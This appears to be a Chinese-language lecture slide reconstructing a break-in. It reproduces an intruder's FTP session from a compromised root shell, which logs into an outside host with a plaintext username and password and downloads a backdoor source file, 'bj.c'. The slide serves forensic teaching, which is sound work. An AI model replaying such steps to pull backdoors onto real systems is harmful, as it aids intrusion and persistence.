

6.6.3 现场重建
接着，“黑帽”通过ftp连接到另一个系统以获取后门程序。

[root@apllo/]# ftp 24.112.167.35
Connected to 24.112.167.35
220 Linux FTP server (Version wu-2.5.0(1) Tue Sep 21 16:48:12 EDT 1999) ready.
Name (24.112.167.35:twin): welek
331 Password required for welek.
Password: password
230 User welek logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get bj.c
local: bj.c remote: bj.c
200 PORT command successful.
150 Opening BINARY mode data connection for bj.c (1010 bytes).
226 Transfer complete.
1010 bytes received in 0.115 sees (8.6 Kbytes/sec)
ftp> quit
221-You have transferred 1010 bytes in 1 files.
221-Total traffic for this session was 1421 bytes in 1 transfers.
221-Thank you for using the FTP service on linux.
221 Goodbye.